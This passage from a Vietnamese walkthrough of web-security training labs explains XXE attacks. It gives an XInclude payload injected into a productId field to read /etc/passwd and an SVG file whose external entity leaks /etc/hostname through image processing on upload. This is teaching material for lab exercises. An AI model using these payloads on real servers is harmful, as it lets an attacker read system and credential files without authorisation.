 > Để tấn công thành công, ta cần reference XInclude namespace và đường dẫn file cần đọc, ở đây là `/etc/passwd`.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

> Chèn payload trên vào trường `productId`, ta thấy kết quả trả về nội dung file `/etc/passwd` thành công: 
> ![image](https://hackmd.io/_uploads/HyxidV7M0.png)

> Như vậy là ta đã hoàn thành bài lab: ![image](https://hackmd.io/_uploads/rJUnO4QfC.png)

# **9. Lab: Exploiting XXE via image file upload**
> Lab này cho phép người dùng đính kèm hình đại diện vào nhận xét và sử dụng thư viện Apache Batik để xử lý tệp hình ảnh đại diện. Để giải bài lab, tải lên hình ảnh để làm hiển thị nội dung của tệp `/etc/hostname` sau khi được server xử lý. Sau đó sử dụng nút "Submit solution" để gửi flag:
![image](https://hackmd.io/_uploads/H1l2YNXMC.png)

>Bài lab có chức năng comment tại các bài post, trong đó cho phép user upload ảnh avatar. Avatar này phải là PNG, JPG, JPEG:
>![image](https://hackmd.io/_uploads/Hy6P947M0.png)

> Ta thử comment hợp lệ và bắt request: ![image](https://hackmd.io/_uploads/H19njEmMC.png)

>Vì một số thư viện xử lí ảnh `PNG`, `JPG`, ... có hỗ trợ xử lí file `SVG` nên ta có thể upload một file `.svg` có chứa XML payload trong đó:
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="160px" height="160px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
>![image](https://hackmd.io/_uploads/Skkj24QGA.png)

>File SVG trên sẽ generate ra 1 ảnh có kích thước 160x160 có chứa đoạn text chính là nội dung file `/etc/hostname` cần lấy! Lúc này, quay lại bài post và thấy avatar user sẽ là các ảnh vừa generate ra: ![image](https://hackmd.io/_uploads/Hk7bTVQzR.png)

>Phóng to ảnh ra và lấy được flag là hostname của server!! Tiến hành nộp flag và ta sẽ hoàn thành bài lab: 
> ![image](https://hackmd.io/_uploads/BJwOT47zC.png)

